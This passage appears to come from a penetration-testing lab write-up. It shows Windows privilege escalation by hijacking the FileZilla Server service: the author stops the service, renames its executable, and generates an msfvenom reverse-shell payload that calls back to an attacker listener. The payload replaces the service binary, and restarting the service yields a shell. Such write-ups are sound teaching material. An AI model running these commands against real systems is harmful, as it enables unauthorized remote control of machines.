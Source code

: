 As I was using the TFTP service to transport files, I attempted to stop the FileZilla service instead, which I was successfully able to do:

```shell_session
C:\Program Files\FileZilla Server>net stop "FileZilla Server FTP Server"
net stop "FileZilla Server FTP Server"
The FileZilla Server FTP server service is stopping.
The FileZilla Server FTP server service was stopped successfully.
```

Once the service had been stopped, I checked to see if the user I was logged in as was able to rename the service's target executable, and as expected - it could!

```shell_session
C:\Program Files\FileZilla Server>move "FileZilla server.exe" "FileZilla server.exe.bak"
move "FileZilla server.exe" "FileZilla server.exe.bak"
```

Now that I could hijack the service, I created another `windows/shell_reverse_tcp` executable using msfvenom, as I did earlier, but this time set `LPORT` to 5556:

```shell_session
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.2.0.3 LPORT=5556 -f exe -o shell.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Once created, I transferred it down using TFTP again, and started another ncat listener, but this time on port 5556.

I then proceeded to move the file from the web root into the FileZilla directory, ensuring to rename the file to what the service was targeting and then restarted the service:

```shell_session
C:\PROGRA~1\FILEZI~1>move C:\www\root\shell.exe "FileZilla server.exe"
move C:\www\root\shell.exe "FileZilla server.exe"

C:\PROGRA~1\FILEZI~1>net start "FileZilla Server FTP Server"
net start "FileZilla Server FTP Server"
```

Once the service started back up, the new shell popped:

```shell_session
root@kali:~# ncat -v -l -p 5556
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5556
Ncat: Listening on 0.0.0.0:5556
Ncat: Connection from 10.2.0.107.
Ncat: Connection from 10.2.0.107:1163.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
